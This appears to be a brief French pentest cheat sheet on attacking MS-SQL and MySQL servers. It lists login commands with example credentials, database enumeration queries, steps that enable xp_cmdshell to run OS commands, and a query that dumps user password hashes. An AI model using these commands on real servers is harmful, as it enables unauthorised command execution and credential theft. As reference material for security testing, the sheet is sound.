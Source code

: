 ### Connexion

**MS-SQL**

    impacket-mssqlclient Admin:Mdp123@192.168.100.100 -windows-auth
    -----
    sqsh -U sa -P password -S 192.168.100.100:1433 -D MaBDD
    -----
    sqlcmd -U 'Admin' -S 'localhost\SQLEXPRESS' -P ‘Mdp123’

**MySQL**

    mysql -u root -p 'root' -h 192.168.100.100 -P 3306

### Exploitation

**MS-SQL**

    SELECT name FROM sys.databases;
    SELECT * FROM Ma_BDD.information_schema.tables;
    SELECT uid, status, name FROM master.dbo.sysusers;
    SELECT * FROM Ma_BDD.dbo.table
	-----
    EXECUTE sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXECUTE sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    EXEC master..xp_cmdshell "whoami"

**MySQL**

    mysql> SHOW DATABASES;
    mysql> SHOW TABLES FROM mysql;
    mysql> SHOW COLUMNS FROM mysql.users;
    mysql> SELECT user, password FROM mysql.user WHERE user = 'tim';




